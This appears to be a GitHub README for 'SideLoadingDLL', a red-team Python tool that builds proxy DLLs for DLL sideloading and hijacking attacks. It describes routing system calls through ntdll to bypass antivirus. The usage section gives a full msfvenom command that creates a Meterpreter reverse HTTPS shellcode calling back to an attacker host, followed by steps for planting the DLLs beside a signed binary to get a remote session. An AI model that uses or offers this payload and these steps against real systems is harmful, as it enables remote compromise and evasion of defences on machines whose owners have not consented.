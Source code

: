 # SideLoadingDLL

Python script to generate "proxy" DLL files load unsafely by binaries on runtime, makes it super easy to perform a DLL Sideloading attack or hijacking.
This implementation makes sure that all system calls still go through ntdll.dll to avoid the usage of direct systemcalls.

See the below articles for more details
https://flangvik.com/privesc/windows/bypass/2019/06/25/Sideload-like-your-an-APT.html
https://flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html

demo's is using GUP.exe signed from NotePad++, loading a malicious libcurl sideloading malware:

Sideloading ncrypt.dll( meterpreter session)
![Meterpreter sideload](https://github.com/MaorSabag/SideLoadingDLL/blob/main/demo/screen-capture.gif)

## Dependencies
- x64 Native Tools Command Prompt for VS
- Python3

## Usage
- Find a binary that is vulnerable to SideLoading/DLL Hijacking
- Create a shellcode (msfvenom -p windows/x64/meterpreter_reverse_https LHOST=eth0 LPORT=443 -f raw -o shellcode.bin)
- Run the make.py file with the arguments needed
- Copy the files from the Output directory to the vulnerable program and make sure the injected process is open
- Run the program and get a session back!!

## Demo
- You can find the full demo in this [link](https://drive.google.com/file/d/1CR4uV-GGxm8kNZYWHtpSrjMGEgoj1Zr4/view).

## Credits 
- [Sektor7's RTO Malware Essential Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [Flangvik](https://twitter.com/Flangvik)'s [SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)
- [thefLink](https://github.com/thefLink)'s [RecycledGate](https://github.com/thefLink/RecycledGate)
